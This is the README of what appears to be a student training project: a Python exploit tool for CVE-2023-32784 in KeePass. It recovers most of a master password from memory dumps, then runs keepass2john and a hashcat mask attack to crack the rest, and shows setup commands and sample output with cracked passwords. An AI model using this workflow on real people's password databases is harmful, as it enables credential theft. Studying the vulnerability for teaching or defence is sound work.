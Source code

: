 # EXPLOIT_KEEPASS

A Python console program that **exploits the security vulnerability CVE-2023-32784** in the password manager **KeePass**.
This exploit reconstructs the master password in plain text based on memory dumps (.DMP).  

The program was created as part of my training at the Developer Academy and is used exclusively for teaching purposes.

## Table of Contents

1. [Technologies](#technologies)
1. [Getting Started](#getting-started)
1. [Usage](#usage)
   * [Program Options](#program-options)
   * [Program Flow](#program-flow)
   * [Example Run](#example-run) 

## Technologies

* **Python** 3.12.2
  * **argparse, subprocess, os, concurrent.futures (ThreadPoolExecutor), typing** (standard library)
  * **python-dotenv** [More Information](https://pypi.org/project/python-dotenv/)
    * It reads key-value pairs from a .env file and can set them as environment variables.
* **keepass2john** 1.9.0 [More Information](https://www.openwall.com/john/)
  * Extract hashes from encrypted Keepass database password files.
* **hashcat** 6.2.6 [More Information](https://github.com/hashcat/hashcat)
  * The world's fastest and most advanced password recovery utility.

## Getting Started

0) [Fork](https://docs.github.com/de/pull-requests/collaborating-with-pull-requests/working-with-forks/fork-a-repo) the project to your namespace, if you want to make changes or open a [Pull Request](https://docs.github.com/de/pull-requests/collaborating-with-pull-requests/proposing-changes-to-your-work-with-pull-requests/about-pull-requests).

1. [Clone](https://docs.github.com/en/repositories/creating-and-managing-repositories/cloning-a-repository) the project to your platform if you just want to use it:

    ```bash
    git clone git@github.com:SarahZimmermann-Schmutzler/exploit_keepass.git
    ```

1. Install the **dependencies**:
   * Create a **Virtual Environment (Venv)** in the project folder:

      ```bash
      python -m venv env
      ```

   * **Activate** the Venv:

      ```bash
      source venv/bin/activate #Linux
      env\Scripts\activate #Windows
      ```

   * Install the **dependencies** from [requirements.txt](./requirements.txt):

      ```bash
      pip install -r requirements.txt
      ```

1. Install the programs **John the Ripper** (because **keepass2john** is part of this suite) and **hashcat** if you haven't already:
    * Linux/Ubuntu:

        ```bash
        sudo apt update && apt upgrade
        sudo apt install john hashcat
        ```

    * Windows:
        * [Download](https://github.com/openwall/john) John the Ripper
        * [Download](https://hashcat.net/hashcat/) hashcat

1. Configure an `.env file` with the path to your hashcat directory:

    ```bash
    HASHCAT_PATH=C:\Users\Path\To\hashcat-6.2.6
    ```

* If your **hashcat** version **runs globally** you have to **remove** `cwd=HASHCAT_PATH` in code line 244 before using the program.

## Usage

* For the further commands navigate to the directory you cloned **Exploit_KeePass** into.

### Program Options

* To see all available **program options** have a look in the `help-section`:

    ```bash
    python exploit_keepass.py -h
    # or
    python exploit_keepass.py --help
    ```

    | Option (Long) | Short | Description | Required? |
    | ------------- | ----- | ----------- | --------- |
    | --help | -h | Get a list of the **available options** | no |
    | --directory | -dir | Directory containing **.kdbx and .DMP file pairs** | yes |

### Program Flow

* Extracts .kdbx and .DMP files from the specified directory.
* Maps .DMP files to corresponding .kdbx files.
* Extracts partial master passwords (missing first two characters) from .DMP files using a customized version of **keepass-dump-masterkey**:
  * [Customized version](./my_poc.py): The first two characters of the master password are cut off.
  * [Original](https://github.com/matro7sh/keepass-dump-masterkey): The first character of the master password is missing and the second is a guess.
* Extracts hashes from .kdbx files using the **keepass2john** tool.
* Links partial master passwords with .kdbx files based on their mapping.
* Performs a Mask Attack using a mask with all possible character combinations for the first two elements to reconstruct the full master passwords using **hashcat**.
* Saves the results (cracked passwords) in the cracked_passwords.potfile in the hashcat drectory.

### Example Run

* To crack a KeePass master passwords using .kdbx and .DMP files use the following command in your terminal:  

    ```bash
    python exploit_keepass.py -dir [path/to/directory/with/kdbx-DMP-files]
    ```

  * The content of the directory should look like this:

    ```bash
    test1.DMP
    test1.kdbx
    test2.DMP
    test2.kdbx
    ...
    ```  

* It will yield the following **output**:

    ```bash
    All kdbx-files and DMP-files listed.
    Files successfully mapped.
    Masterpassword-Extraction successful.
    Hash extraction completed.
    Dictionary that connects Hashes with their incomplete passwords is built.
    [+] Start hashcat for dumps\test1.kdbx with mask: ?a?a25U7L559Sa!U
    $keepass$*2*60000*0*87137babe126e080ec0f8fbe1b7a07dff10d480273fe622266338836071707e7*cb0077647e229d549feb79ce3cdafcc3e68b53dc84f18edf0c840710fa255660*78b067b8e7edde33f7927c82b9781098*d4b3a2dd156946173d81b61f89c602857f8d594e022f1ed8850abf0cd275eaff*1470f4d5ada79f3400fe72fa011d07e88c98a7920d88ff6f18af35e344603bf3:sD25U7L559Sa!U
    [+] Start hashcat for dumps\test2.kdbx with mask: ?a?aCu897QLIKGE6E.
    $keepass$*2*60000*0*5c33f9f1caf38baa9a20106083a0acc3cfe7e6b6d5c98b9c52e63d9507cfca75*8d8a4e6ac3d08ef2ec15ee542fe5df8d6fb703f5e4c58256650c79332d25c8e7*6ce2ba1dd28bcf3e86996fcec8e172c2*0ab826ff50b019f13579199e40b4340f06792b8b094092a07f5456102d493168*98038fe620dd4b781a48560d61d53f51e462dbd8b8e8e9405970e019cccda7cd:HJCu897QLIKGE6E.
    Cracking completed. Results saved in cracked_passwords.potfile.
    ```
